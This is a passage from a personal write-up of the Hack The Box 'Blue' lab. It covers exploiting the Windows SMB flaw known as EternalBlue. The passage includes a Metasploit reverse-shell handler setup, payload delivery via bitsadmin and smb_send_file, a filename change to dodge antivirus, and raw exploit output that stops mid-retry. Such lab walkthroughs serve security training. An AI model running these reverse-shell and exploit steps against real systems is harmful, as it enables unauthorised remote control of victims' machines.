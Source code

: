 The first exploit I tried involved using `bitsadmin` to download the shell script from our box, as shown below:

![[Pasted image 20210501180503.png]]

However this would turn out not to work, and I eventually settled on using `smb_send_file` instead:

![[Pasted image 20210501191017.png]]

(*note:* I also changed the name of the `.exe` to `sc.exe`, in case `shell.exe` was getting caught by AV - this turned out not to be the issue, but that's why the filename has changed)

I used the `msf` handler, as per the tutorial:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.2:9001 
```

I spent a while debugging my payloads - I had made some syntax errors in my original attempt, which I've excluded because no one wants to read those.

My real issues turned out to be getting the username and delivery method incorrect, but most of my time was spent changing payloads as I believed that to be the issue at the time. A lesson was learnt here - go for the simplest payload first and make sure everything else is correct before you go changing it.

When all that was fixed I ran my exploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 exploit.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a008214048
InParam: 0xfffff8a00826015c
MID: 0x2207
unexpected alignment, diff: 0x-4cfb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a004117048
InParam: 0xfffff8a00827215c
MID: 0x2207
unexpected alignment, diff: 0x-415bfb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a008254048
InParam: 0xfffff8a00890715c
MID: 0x2207
```